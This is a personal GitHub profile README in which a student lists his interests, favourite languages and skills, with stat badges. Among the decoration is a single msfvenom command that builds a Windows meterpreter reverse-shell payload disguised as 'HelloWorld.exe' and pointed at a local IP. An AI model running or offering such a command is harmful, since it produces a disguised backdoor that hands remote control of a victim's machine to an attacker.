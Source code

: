 ## Hello, I am Jaycheng

<img align='right' src='./res/crash.png' width='40%'>

* ✨ `My name is`: **Jaycheng**,
* 🪪 `Pronouns`: **He/Him**,
* 🏫 `I'm study in`: **NTUST**,
* 🌱 `I’m currently learning`: **JavaScript**,
* ❤️ `I love`: **Perle milk tea🧋**  ,
* 🖥️ `Favorite lang`: **JavaScript & Python**

### About me
>化工科，比起調殺蟲劑更喜歡造爬蟲www

#### >　1000110 1001111 1011000

```bash
msfvenom -p windows/meterpreter/reverse_tcp lport=1111 lhost=192.168.0.1 -f exe > HelloWorld.exe
```

<br>
<h2 align="center">🍵 Statistics</h2>

<div>
    <img src="https://github-readme-stats.vercel.app/api/top-langs/?username=FUBUKINGFOX&layout=compact&theme=dark" alt="my github stats" height="170">
    <img src="https://github-readme-stats.vercel.app/api?username=FUBUKINGFOX&theme=dark" alt="my github stats" height="170"/>
</div>

### Skills

<div>
    <img src="./icon/git.png" alt="git" title="Git Version Control" width="52" />
    <img src="./icon/nodejs.png" alt="nodejs" title="NodeJS" width="52" />
    <img src="./icon/javascript.png" alt="javascript" title="Javascript" width="52" />
    <img src="./icon/python.png" alt="python" title="Python" width="52" />
</div>
